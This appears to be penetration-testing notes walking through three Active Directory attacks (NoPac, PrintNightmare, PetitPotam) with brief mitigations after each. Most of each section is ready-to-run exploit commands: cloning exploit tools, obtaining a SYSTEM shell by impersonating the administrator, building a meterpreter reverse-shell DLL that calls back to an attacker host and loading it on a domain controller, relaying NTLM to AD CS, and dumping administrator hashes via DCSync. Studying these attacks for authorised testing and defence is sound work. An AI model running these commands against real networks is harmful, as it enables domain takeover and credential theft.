 ## Overview

Many organizations delay patching vulnerabilities, allowing attackers to exploit recent vulnerabilities for initial access or privilege escalation. The following are three recent Active Directory attack techniques:

1. **NoPac (SamAccountName Spoofing)**
2. **PrintNightmare (Print Spooler RCE & LPE)**
3. **PetitPotam (MS-EFSRPC Abuse)**

Each of these can lead to **domain compromise** with minimal effort.

---

## 1. NoPac (SamAccountName Spoofing)

**CVE-2021-42278 & CVE-2021-42287**

- Allows a standard domain user to escalate to **Domain Admin** in a single command.
- Exploits the ability to rename a machine account to match a Domain Controller’s **SamAccountName**.
- Kerberos then issues a **TGT** for the newly renamed account with **DC privileges**.
- The attacker can request a **TGS** and obtain **NT AUTHORITY/SYSTEM** shell.

### Steps to Exploit:

1. **Install Impacket & Clone NoPac Exploit**
```bash
git clone https://github.com/SecureAuthCorp/impacket.git
python setup.py install
git clone https://github.com/Ridter/noPac.git
```
    
2. **Check for Vulnerability:**
```bash
sudo python3 scanner.py inlanefreight.local/user:password -dc-ip <DC_IP> -use-ldap
```
    
3. **Exploit & Gain Shell:**
 ```bash
sudo python3 noPac.py DOMAIN/user:password -dc-ip <DC_IP> -dc-host <DC_NAME> -shell --impersonate administrator -use-ldap
```
    
4. **Use the TGT for DCSync Attack:**
```bash
sudo python3 noPac.py DOMAIN/user:password -dc-ip <DC_IP> -dc-host <DC_NAME> --impersonate administrator -use-ldap -dump -just-dc-user DOMAIN/administrator
```

### Mitigations:

- Set **ms-DS-MachineAccountQuota = 0** to prevent adding machine accounts.
- Apply **security updates** for CVE-2021-42278 & CVE-2021-42287.

---

## 2. PrintNightmare (Remote Code Execution & Privilege Escalation)

**CVE-2021-34527 & CVE-2021-1675**

- Exploits the **Print Spooler** service on Windows for **RCE & privilege escalation**.
- Can be used to gain **SYSTEM privileges** on a Domain Controller.

### Steps to Exploit:

1. **Clone Exploit:**
```
git clone https://github.com/cube0x0/CVE-2021-1675.git
```
    
2. **Install Required Impacket Version:**
 ```bash
pip3 uninstall impacket
git clone https://github.com/cube0x0/impacket
cd impacket
python3 setup.py install
```
    
3. **Check for Vulnerability:**
```bash
rpcdump.py @<DC_IP> | egrep 'MS-RPRN|MS-PAR'
```
    
4. **Generate DLL Payload:**
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<ATTACK_IP> LPORT=8080 -f dll > exploit.dll
```
    
5. **Host Payload:**
```bash
sudo smbserver.py -smb2support ShareName /path/to/exploit.dll
```
    
6. **Exploit Remote DC:**
 ```bash
sudo python3 CVE-2021-1675.py DOMAIN/user:password@<DC_IP> '\\<ATTACK_IP>\ShareName\exploit.dll'
```

### Mitigations:

- Disable **Print Spooler** on domain controllers.
- Apply **patches** for CVE-2021-34527 & CVE-2021-1675.

---

## 3. PetitPotam (NTLM Relay to AD CS)

**CVE-2021-36942**

- Allows **unauthenticated** attackers to coerce a **Domain Controller** to authenticate to another host via NTLM relay.
- Can be used to obtain a **TGT for the Domain Controller** and perform a **DCSync attack**.

### Steps to Exploit:

1. **Start NTLM Relay Attack:**
 ```
 sudo ntlmrelayx.py -debug -smb2support --target http://<CA_HOST>/certsrv/certfnsh.asp --adcs --template DomainController
```
    
2. **Trigger Authentication via PetitPotam:**
```
 python3 PetitPotam.py <ATTACK_IP> <DC_IP>
```
    
3. **Extract Certificate:**
```bash
sudo ntlmrelayx.py --adcs --target http://<CA_HOST>/certsrv/certfnsh.asp --template DomainController
 ```
    
4. **Request TGT Using Extracted Certificate:**
 ```bash
python3 gettgtpkinit.py DOMAIN/DomainController$ -pfx-base64 <EXTRACTED_CERT> dc01.ccache
    ```
    
5. **Use TGT for DCSync Attack:**
 ```bash
 secretsdump.py -just-dc-user DOMAIN/administrator -k -no-pass "DomainController$"@<DC_IP>
```

### Mitigations:

- Apply **CVE-2021-36942** patch.
- Disable **NTLM authentication** on Domain Controllers.
- Use **Extended Protection for Authentication** for **AD CS Web Enrollment**.

---

## Recap

|Attack|Privileges Required|Outcome|
|---|---|---|
|**NoPac**|Standard Domain User|Domain Admin Access|
|**PrintNightmare**|Standard Domain User|SYSTEM Shell on DC|
|**PetitPotam**|No Authentication|Domain Admin Access|

### Key Takeaways:
- **NoPac** exploits SamAccountName spoofing for **instant privilege escalation**.
- **PrintNightmare** allows **remote SYSTEM shell** on vulnerable hosts.
- **PetitPotam** leverages **NTLM relay to compromise AD CS & escalate privileges**.
- Keeping up with **patch management** and **attack surface reduction** is critical for defense.